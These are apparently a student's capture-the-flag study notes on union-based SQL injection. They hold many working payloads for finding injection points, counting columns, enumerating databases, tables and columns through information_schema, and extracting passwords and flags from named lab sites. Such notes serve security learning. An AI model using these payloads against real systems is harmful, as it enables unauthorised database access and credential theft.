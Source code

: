 # Union SQL Injection

## Part 1. How to solve CTF
1. You have to find the reason for the problem.
2. check step by step - debugging
3. [Beginners Guide to Web Hacking CTFs](https://medium.com/@isaacwangethi30/beginners-guide-to-web-hacking-ctfs-9ef04e7c5df5)

## Part 2. CTF Solution
1. Admin is mine
- It blocks the login page on JavaScript.
2. Burp Suite = how to modify the response
3. Countermeasure of SQL Injection = Prepared Statement

## Part 3. SQL Injection - Data Extraction
1. The place where we use data in the database
2. The data display or not
- Display = Board
- Not display = login, ID double check
3. Data Extraction
- It brings all data, but it cannot bring other tables
```javascript
select * from board where idx= '______' or '1' = '1'
```
- union  = it can use the select function again, and the column number must be the same
ex) select pass from member union select id from member
ex) select id, pass from member union select 1,2
- order by = sort
ex) select ~~~ order by [column name]
ex) select id from member order by id

## Part 4. Union SQL Injection
- Union SQL Injection Process
1. Find out the point of the SQL Injection
* Type the part of words
```javascript
select * from table where name like '%______%'
```
```javascript
over%' and '1%' = '1
```
2. Find the number of Columns
* Find out how many columns it is to type sequence numbers
```javascript
over%' order by 1 #
```
3. Find the number of print column location
* It shows the displayed numbers
```javascript
over%' union select 1,2,3,4 #
```
* select pass from member
```javascript
over%' union select 1,pass,3,4 #
```
4. Find DB name: segault_sql
```javascript
select database()
over%' union select 1,database(),3,4 #
```
5. Find Table name
```javascript
information_schema.tables
select table_name from information_schema.tables where table_schema = 'DB Name'
over%' union select 1,table_name,3,4 from information_schema.tables where table_schema = 'segfault_sql' #
```
6. Find Column name
```javascript
select column_name from information_schema.columns where table_name = 'table name'
over%' union select 1,column_name,3,4 from information_schema.columns where table_name = 'member' #
```
7. Find Data
```javascript
select id, pass from member
over%' union select 1, id, pass, 4 from member
```

## Part 5 - Assignment
1. Review Union SQL Injection (HTTP://ctf.segfaulthub.com:1020/sqlInjection3.php)

2. dol dol data (only one result) (HTTP://ctf.segfaulthub.com:1020/sqlInjection_2_1.php)<br>

a. Find out the point of the SQL Injection
```javascript
1234' or '1' ='1
```
b. Find the number of columns
```javascript
1234' order by 4 #
```
c. Find the number of print column locations
```javascript
1234' union select 1,2,3,4 #
```
d. Find DB name
```javascript
1234' union select database(),2,3,4 #
```
e. Find Table name
```javascript
1234' union select table_name,2,3,4 from information_schema.tables where table_schema = 'segfault_sql' #
```
f. Find column name
```javascript
1234' union select column_name,2,3,4 from information_schema.columns where table_name = 'member' #
```
g. Find Data
```javascript
0000' union select id,pass,email,info from member where id = 'doldol' #
```

3. CTF questions<br>
* SQL Injection 1 <br>
a. Find out the point of the SQL Injection
```javascript
ad%' and 1=1 #
```
b. Find out the number of columns
```javascript
ad%' order by 4 #
```
C. Find out the number of print column locations
```javascript
ad%' union select 1,2,3,4 #
```
d. Find DB name
```javascript
ad%' union select database(),2,3,4 #  => 	sqli_1
```
e. Find table name
```javascript
ad%' union select table_name,2,3,4 from information_schema.tables where table_schema = 'sqli_1' #
```
f. Find column name
```javascript
ad%' union select column_name,2,3,4 from information_schema.columns where table_name = 'flag_table' #
```
g. Find data
```javascript
ad%' union select flag, 2, 3, 4 from flag_table #
```

* SQL Injection <br>
a. The point? = When I typed nomaltic, the information showed "My name is normaltic", but when I typed "admin", it doesn't show anything. Which means, depending on the name, the information changes. So, when it tried SQL injection "admin' or '1", it showed "my name is normaltic"
b. The number of columns?
```javascript
admin' order by 6 #
```
c. location?
```javascript
admin' union select 1,2,3,4,5,6 #   => only showing "6"
```
d. database?
```javascript
admin' union select 1,2,3,4,5,database() #    => sqli_5
```
e. table? = flag_honey
```javascript
admin' union select 1,2,3,4,5,table_name from information_schema.tables where table_schema = 'sqli_5' #     
```
f. column name? = flag
```javascript
admin' union select 1,2,3,4,5,column_name from information_schema.columns where table_name = 'flag_honey' #
```
g. data? = kkkkkkk_Not Here!
```javascript
admin' union select 1,2,3,4,5,flag from flag_honey #
```
h. other data?
```javascript
admin' union SELECT 1, 2, 3, 4, 5, group_concat(table_name) from information_schema.tables where table_schema = 'sqli_5' #
```
- [Find hidden information](https://www.w3resource.com/mysql/aggregate-functions-and-grouping/aggregate-functions-and-grouping-group_concat.php)<br>
<br>i. other data?
```javascript
admin' union select 1,2,3,4,5,column_name from information_schema.columns where table_name = 'secret' #
```
j. other data? = NONONO~~~~
```javascript
admin' union select 1,2,3,4,5,flag from secret #    
```
k. other data?
```javascript
admin' union select 1,2,3,4,5,group_concat(flag) from secret #
```

4. Web development
- mypage
